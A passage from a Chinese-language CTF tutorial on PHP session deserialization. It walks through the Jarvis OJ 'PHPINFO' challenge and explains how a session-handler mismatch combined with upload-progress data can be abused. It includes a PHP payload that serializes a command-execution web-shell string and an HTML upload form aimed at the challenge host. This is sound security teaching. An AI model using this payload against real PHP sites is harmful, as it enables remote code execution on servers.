 ```php
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

<http://web.jarvisoj.com:32784/>

1. 存在恶意类`OowoO`，析构方法中存在代码执行漏洞
2. 通过 `phpinfo()` 可知：

- _`session.upload_progress.enabled=On`_，可用文件上传在`session`中写入数据
- _`session.serialize_handler`_ 的默认值为`php_serialize`，脚本运行时配置为`php`，**处理器不一致**

3. 我们可通过文件上传控制`session`文件内容，进而实现`session`反序列化漏洞攻击



例题：Jarvis OJ — PHPINFO 解题步骤

1. 生成`payload`

```php
<?php
class OowoO{
    public $mdzz = '?><?=`$GET["cmd"]`';
}
$obj  = new OowoO();
echo serialize($obj);
// O:5:"OowoO":1:{s:4:"mdzz";s:18:"?><?=`$GET["cmd"]`";}
?>
```

2. 构造文件上传进度请求

```html
<form
  action="http://web.jarvisoj.com:32784/"
  method="POST"
  enctype="multipart/form-data"
>
  <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
  <input type="file" name="file" />
  <input type="submit" />
</form>
```

## 字符逃逸



## PHP 原生类

PHP 内置类
